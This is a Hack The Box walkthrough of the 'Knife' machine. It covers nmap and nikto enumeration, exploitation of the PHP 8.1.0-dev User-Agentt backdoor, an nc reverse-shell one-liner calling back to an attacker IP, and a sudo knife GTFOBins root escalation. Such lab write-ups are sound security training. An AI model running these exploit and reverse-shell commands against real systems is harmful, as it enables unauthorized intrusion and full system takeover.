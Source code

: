```yaml
---
tags: 
group: Linux
---
```

![](https://labs.hackthebox.com/storage/avatars/110fe6608793064cf171080150ebd0dc.png)

- Machine : https://app.hackthebox.com/machines/Knife
- Reference : https://0xdf.gitlab.io/2021/08/28/htb-knife.html
- Solved : 2025.3.21. (Fri) (Takes 1day)

## Summary
---

1. **Initial Enumeration**
    - **Open Ports**: 22 (SSH), 80 (HTTP)
    - **Services Identified**:
        - SSH: OpenSSH 8.2p1
        - HTTP: Apache 2.4.41 (Ubuntu), PHP/8.1.0-dev
    - **Tools Used**:
        - `nmap` – Full service enumeration
        - `nikto` – Found PHP 8.1.0-dev (development version)
    
2. **Web Exploitation**
    - **PHP 8.1.0-dev RCE Exploit**:
        - ExploitDB ID: `49933.py` – RCE via `User-Agentt` header
        - Gained **initial shell as `james`**
    
3. **Shell as `james`**
    - **Upgraded Shell**:
        - Reverse shell using `nc`, then upgraded with `pty.spawn("/bin/bash")`
    - **Privilege Enumeration**:
        - `sudo -l` revealed password-less access to `/usr/bin/knife`
    
4. **Privilege Escalation to `root`**
    - **GTFOBins Technique**:
        - Command: `sudo /usr/bin/knife exec -E 'exec "/bin/sh"'`
        - Escalated to **root shell successfully**

### Key Techniques:

- **Service Enumeration**: `nmap`, `nikto`
- **Known Exploit Usage**: PHP 8.1.0-dev RCE
- **Shell Upgrade**: Reverse shell with `nc` and Python pty
- **Privilege Escalation**: GTFOBins sudo abuse via `knife` exec

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb/knife]
└─$ /opt/custom-scripts/port-scan.sh 10.10.10.242
Performing quick port scan on 10.10.10.242...
Found open ports: 22,80
Performing detailed scan on 10.10.10.242...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-21 01:32 MDT
Nmap scan report for 10.10.10.242
Host is up (0.39s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 75.46 seconds
```

### http(80)

![](attachments/knife_1.png)

The "EMA" stands for "Emergent Medical Idea". It seems to be related with medical, and hospital systems.

Let's run `nikto` to scan the webserver.

```bash
┌──(kali㉿kali)-[~/htb/knife]
└─$ nikto -h http://10.10.10.242
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.10.242
+ Target Hostname:    10.10.10.242
+ Target Port:        80
+ Start Time:         2025-03-21 01:38:05 (GMT-6)
---------------------------------------------------------------------------
+ Server: Apache/2.4.41 (Ubuntu)
+ /: Retrieved x-powered-by header: PHP/8.1.0-dev.
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
```

It says the PHP version is `8.1.0-dev` which is quite outdated.



# Shell as `james`

### PHP 8.1.0-dev backdoor

```bash
┌──(kali㉿kali)-[~/htb/knife]
└─$ searchsploit -e "php 8.1.0-dev"
----------------------------------------------------- ---------------------------
 Exploit Title                                       |  Path
----------------------------------------------------- ---------------------------
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution  | php/webapps/49933.py
----------------------------------------------------- ---------------------------
Shellcodes: No Results
```

Luckily, I found an existing exploit exactly for that PHP version.
Here's a related article : https://amsghimire.medium.com/php-8-1-0-dev-backdoor-cb224e7f5914

I copied the exploit using `searchsploit -m`.

```bash
┌──(kali㉿kali)-[~/htb/knife]
└─$ searchsploit -m php/webapps/49933.py
  Exploit: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution
      URL: https://www.exploit-db.com/exploits/49933
     Path: /usr/share/exploitdb/exploits/php/webapps/49933.py
    Codes: N/A
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /home/kali/htb/knife/49933.py
```

Using this exploit, I can easily obtain a shell.

```shell
┌──(kali㉿kali)-[~/htb/knife]
└─$ python 49933.py                                                   
Enter the full host url:
http://10.10.10.242

Interactive shell is opened on http://10.10.10.242 
Can't acces tty; job crontol turned off.
$ id
uid=1000(james) gid=1000(james) groups=1000(james)

$ whoami
james
```



# Shell as `root`

### Upgrade shell

Current shell is implicitly sending HTTP request with `user-agentt` header every time.
Let's upgrade the shell to fully interactive one.

```shell
┌──(kali㉿kali)-[~/htb/knife]
└─$ python 49933.py
Enter the full host url:
http://10.10.10.242

Interactive shell is opened on http://10.10.10.242 
Can't acces tty; job crontol turned off.
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.26 9001 >/tmp/f
```

```bash
┌──(kali㉿kali)-[~/htb/knife]
└─$ nc -nlvp 9001          
listening on [any] 9001 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.10.242] 42436
/bin/sh: 0: can't access tty; job control turned off
$ python3 --version
Python 3.8.5
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
james@knife:/$
```

### Enumeration

I first checked sudo permission and there is one command can be run as `root`.

```bash
$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

### Exploit `knife` with `sudo` permission

I found it from "GTFOBins" that I can escalate privileges using `knife` binary with the following command line :

```bash
sudo /usr/bin/knife exec -E 'exec "/bin/sh"'
```

Let's try it.

```bash
james@knife:~$ sudo /usr/bin/knife exec -E 'exec "/bin/sh"'
sudo /usr/bin/knife exec -E 'exec "/bin/sh"'
# id
id
uid=0(root) gid=0(root) groups=0(root)
```

I got `root` shell!